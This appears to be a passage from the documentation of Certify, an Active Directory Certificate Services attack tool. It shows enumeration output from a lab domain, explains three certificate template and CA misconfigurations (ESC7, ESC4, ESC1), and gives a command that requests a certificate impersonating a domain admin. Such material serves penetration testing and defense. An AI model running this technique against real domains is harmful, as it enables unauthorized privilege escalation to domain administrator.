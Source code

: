         CA Name                         : dc.theshire.local\theshire-DC-CA
        Template Name                   : VulnTemplate
        Validity Period                 : 3 years
        Renewal Period                  : 6 weeks
        msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
        mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
        Authorized Signatures Required  : 0
        pkiextendedkeyusage             : Client Authentication, Encrypting File System, Secure Email
        Permissions
          Enrollment Permissions
            Enrollment Rights           : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Domain Users         S-1-5-21-937929760-3187473010-80948926-513
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
          Object Control Permissions
            Owner                       : THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000
            WriteOwner Principals       : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
                                          THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000
            WriteDacl Principals        : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
                                          THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000
            WriteProperty Principals    : THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
                                          THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
                                          THESHIRE\localadmin           S-1-5-21-937929760-3187473010-80948926-1000



    Certify completed in 00:00:00.6548319

Given the above results, we have the three following issues:

1. `THESHIRE\Domain Users` have **ManageCA** permissions over the `dc.theshire.local\theshire-DC-CA` CA (ESC7)
   * This means that the EDITF_ATTRIBUTESUBJECTALTNAME2 flag can be flipped on the CA by anyone.
2. `THESHIRE\Domain Users` have full control over the **User2** template (ESC4)
   * This means that anyone can flip the **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** flag on this template and remove the **PEND_ALL_REQUESTS** issuance requirement.
3. `THESHIRE\Domain Users` can enroll in the **VulnTemplate** template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set (ESC1)
   * This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA).

We'll show the abuse of scenario 3.

Next, let's request a new certificate for this template/CA, specifying a DA `localadmin` as the alternate principal:

    C:\Temp>Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin

